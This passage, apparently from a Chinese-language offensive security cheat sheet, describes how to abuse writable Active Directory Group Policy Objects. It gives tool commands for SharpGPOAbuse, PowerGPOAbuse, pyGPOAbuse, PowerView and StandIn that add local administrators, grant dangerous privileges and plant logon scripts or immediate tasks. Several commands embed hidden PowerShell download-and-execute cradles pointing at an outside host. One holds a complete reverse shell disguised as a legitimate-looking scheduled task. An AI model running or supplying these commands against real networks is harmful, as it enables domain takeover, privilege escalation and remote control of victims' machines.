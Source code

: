 	GPO 的创建者被自动授予显式编辑设置、删除、修改安全性，表现为 CreateChild、DeleteChild、Self、WriteProperty、DeleteTree、Delete、GenericRead、WriteDacl、WriteOwner
	GPO 优先级：组织单位 > 域 > 站点 > 本地
### 查找易受攻击的 GPO
	查看具有写入权限的 GPLink
	>Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
### SharpGPOAbuse
	构建和配置 SharpGPOAbuse
	>git clone https://github.com/FSecureLABS/SharpGPOAbuse
	>Install-Package CommandLineParser -Version 1.9.3.15
	>ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll
	添加用户权限
	>.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
	添加本地管理员
	>.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
	配置用户或计算机登录脚本
	>.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
	配置计算机或用户即时任务
	旨在每次 GPO 刷新“运行一次”，而不是每个系统运行一次
	>.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
	>.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
### PowerGPOAbuse
  	https://github.com/rootSySdk/PowerGPOAbuse
	PS> . .\PowerGPOAbuse.ps1
	添加本地管理员 
	PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
	分配新的权限 
	PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
	添加新的计算机/用户脚本
	PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'
	创建一个即时任务
	PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
### pyGPOAbuse
  	>git clone https://github.com/Hackndo/pyGPOAbuse
	将 john 用户添加到本地管理员组（密码：H4x00r123..）
	>./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
	反弹shell
	>./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
	    -powershell \ 
	    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
	    -taskname "Completely Legit Task" \
	    -description "Dis is legit, pliz no delete" \ 
	    -user
### PowerView
  	>Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
	>New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
### StandIn
  	>StandIn.exe --gpo --filter Shards --localadmin user002
	>StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"
	>StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"